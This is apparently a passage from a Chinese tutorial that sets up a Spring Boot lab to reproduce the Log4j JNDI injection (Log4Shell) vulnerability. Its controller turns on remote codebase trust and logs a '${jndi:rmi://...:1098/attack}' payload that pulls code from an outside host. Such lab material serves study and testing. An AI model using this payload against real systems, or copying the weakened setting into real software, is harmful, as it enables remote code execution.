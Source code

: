 ```xml
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-test</artifactId>
        <scope>test</scope>
    </dependency>

    <!-- https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2 -->
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-log4j2</artifactId>
        <version>2.5.4</version>
    </dependency>

</dependencies>
```

准备一个简易的log4j.properties

```properties
log4j.rootLogger=WARN, stdout
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.layout.ConversionPattern=%d %p [%c] - %m%n
```

controller如下

```java
package com.kpy.log4jtracktest.controller;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

/**
 * Copyright © 2022灼华. All rights reserved.
 *
 * @author create by hyq
 * @version 1.0
 * @date 2022/5/7
 * @description:
 */

@RestController
@RequestMapping("track")
public class TrackController {
    private static final Logger logger = LoggerFactory.getLogger(TrackController.class);

    @GetMapping("hello")
    public String hello() {
        System.out.println("进入服务");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.info("${jndi:rmi://192.168.101.11:1098/attack}");

        return "123";
    }
}
```
